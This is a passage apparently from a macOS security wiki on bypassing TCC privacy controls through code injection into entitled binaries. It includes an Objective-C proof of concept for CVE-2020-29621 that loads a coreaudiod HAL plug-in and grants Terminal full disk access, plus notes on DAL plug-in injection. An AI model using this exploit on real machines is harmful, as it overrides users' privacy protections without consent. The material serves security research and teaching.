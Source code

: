 This binary allowed to load **third party plug-ins** from the folder `/Library/Audio/Plug-Ins/HAL`. Therefore, it was possible to **load a plugin and abuse the TCC permissions** with this PoC:

### CVE-2020-29621 - Coreaudiod

The binary **`/usr/sbin/coreaudiod`** had the entitlements `com.apple.security.cs.disable-library-validation` and `com.apple.private.tcc.manager`. The first **allowing code injection** and second one giving it access to **manage TCC**.

This binary allowed to load **third party plug-ins** from the folder `/Library/Audio/Plug-Ins/HAL`. Therefore, it was possible to **load a plugin and abuse the TCC permissions** with this PoC:
```objectivec
#import <Foundation/Foundation.h>
#import <Security/Security.h>

extern void TCCAccessSetForBundleIdAndCodeRequirement(CFStringRef TCCAccessCheckType, CFStringRef bundleID, CFDataRef requirement, CFBooleanRef giveAccess);

void add_tcc_entry() {
CFStringRef TCCAccessCheckType = CFSTR("kTCCServiceSystemPolicyAllFiles");

CFStringRef bundleID = CFSTR("com.apple.Terminal");
CFStringRef pureReq = CFSTR("identifier \"com.apple.Terminal\" and anchor apple");
SecRequirementRef requirement = NULL;
SecRequirementCreateWithString(pureReq, kSecCSDefaultFlags, &requirement);
CFDataRef requirementData = NULL;
SecRequirementCopyData(requirement, kSecCSDefaultFlags, &requirementData);

TCCAccessSetForBundleIdAndCodeRequirement(TCCAccessCheckType, bundleID, requirementData, kCFBooleanTrue);
}

__attribute__((constructor)) static void constructor(int argc, const char **argv) {

add_tcc_entry();

NSLog(@"[+] Exploitation finished...");
exit(0);
```
### Device Abstraction Layer (DAL) Plug-Ins

System applications that open camera stream via Core Media I/O (apps with **`kTCCServiceCamera`**) load **in the process these plugins** located in `/Library/CoreMediaIO/Plug-Ins/DAL` (not SIP restricted).

Just storing in there a library with the common **constructor** will work to **inject code**.

Several Apple applications were vulnerable to this.

### Firefox

The Firefox application had the `com.apple.security.cs.disable-library-validation` and `com.apple.security.cs.allow-dyld-environment-variables` entitlements:

